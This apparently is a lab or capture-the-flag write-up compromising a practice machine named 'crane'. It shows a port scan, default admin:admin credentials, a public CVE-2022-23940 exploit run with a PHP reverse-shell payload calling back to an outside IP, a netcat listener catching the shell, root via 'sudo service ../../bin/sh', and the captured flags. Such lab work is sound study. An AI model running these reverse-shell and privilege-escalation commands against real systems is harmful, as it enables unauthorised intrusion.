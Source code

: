 `Running all scans on 192.168.190.146`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`80/tcp   open  http`
`3306/tcp open  mysql`

Check out the web server

We have weak credentials admin:admin

![[Pasted image 20240210000352.png]]

Check out the PoC - https://github.com/manuelz120/CVE-2022-23940 (found on Google)

`─$ python -m pip install -r "requirements.txt"`              
`Collecting certifi==2021.10.8 (from -r requirements.txt (line 1))`
  `Downloading certifi-2021.10.8-py2.py3-none-any.whl (149 kB)`
     `━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 149.2/149.2 kB 2.3 MB/s eta 0:00:00`
`Collecting charset-normalizer==2.0.12 (from -r requirements.txt (line 2))`
  `Downloading charset_normalizer-2.0.12-py3-none-any.whl (39 kB)`
`Collecting click==8.0.4 (from -r requirements.txt (line 3))`
  `Downloading click-8.0.4-py3-none-any.whl (97 kB)`
     `━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 97.5/97.5 kB 2.4 MB/s eta 0:00:00`
`Collecting idna==3.3 (from -r requirements.txt (line 4))`
  `Downloading idna-3.3-py3-none-any.whl (61 kB)`
     `━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 61.2/61.2 kB 2.4 MB/s eta 0:00:00`
`Collecting requests==2.27.1 (from -r requirements.txt (line 5))`
  `Downloading requests-2.27.1-py2.py3-none-any.whl (63 kB)`
     `━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 63.1/63.1 kB 2.5 MB/s eta 0:00:00`
`Collecting urllib3==1.26.8 (from -r requirements.txt (line 6))`
  `Downloading urllib3-1.26.8-py2.py3-none-any.whl (138 kB)`
     `━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 138.7/138.7 kB 2.6 MB/s eta 0:00:00`
`Installing collected packages: certifi, urllib3, idna, click, charset-normalizer, requests`
  `Attempting uninstall: certifi`
    `Found existing installation: certifi 2023.11.17`
    `Uninstalling certifi-2023.11.17:`
      `Successfully uninstalled certifi-2023.11.17`
  `Attempting uninstall: urllib3`
    `Found existing installation: urllib3 2.1.0`
    `Uninstalling urllib3-2.1.0:`
      `Successfully uninstalled urllib3-2.1.0`
  `Attempting uninstall: idna`
    `Found existing installation: idna 3.6`
    `Uninstalling idna-3.6:`
      `Successfully uninstalled idna-3.6`
  `Attempting uninstall: click`
    `Found existing installation: click 8.1.7`
    `Uninstalling click-8.1.7:`
      `Successfully uninstalled click-8.1.7`
  `Attempting uninstall: charset-normalizer`
    `Found existing installation: charset-normalizer 3.3.2`
    `Uninstalling charset-normalizer-3.3.2:`
      `Successfully uninstalled charset-normalizer-3.3.2`
  `Attempting uninstall: requests`
    `Found existing installation: requests 2.31.0`
    `Uninstalling requests-2.31.0:`
      `Successfully uninstalled requests-2.31.0`
`ERROR: pip's dependency resolver does not currently take into account all the packages that are installed. This behaviour is the source of the following dependency conflicts.`
`flask 3.0.1 requires click>=8.1.3, but you have click 8.0.4 which is incompatible.`
`Successfully installed certifi-2021.10.8 charset-normalizer-2.0.12 click-8.0.4 idna-3.3 requests-2.27.1 urllib3-1.26.8`

`[notice] A new release of pip is available: 23.3.2 -> 24.0`
`[notice] To update, run: pip install --upgrade pip`

On the Github page, it tells us the reverse shell to use:
`└─$ python exploit.py -h http://192.168.190.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.235\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"

Catch and upgrade
`└─$ nc -nlvp 4444`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`
`Ncat: Connection from 192.168.190.146:49976.`
`/bin/sh: 0: can't access tty; job control turned off`
`$ python3 -c 'import pty; pty.spawn("/bin/bash")'` 
`www-data@crane:/var/www/html$`

Check sudo -l if we can

`sudo -l`
`Matching Defaults entries for www-data on localhost:`
    `env_reset, mail_badpass,`
    `secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin`

`User www-data may run the following commands on localhost:`
    `(ALL) NOPASSWD: /usr/sbin/service`

Check GTFObins for sudo service

https://gtfobins.github.io/gtfobins/service/

It tells us to use this command
`sudo /usr/sbin/service ../../bin/sh`

This gives us root, get the flags

`cat proof.txt`
`1a98fb723ece8419f917f13d516e98c2`
`cd /home`
`ls`
`find / -name "local.txt" 2>/dev/null`
`/var/www/local.txt`
`cat /var/www/local.txt`
`3865dfae204ee9f66d9c8fbf4e953f1d`
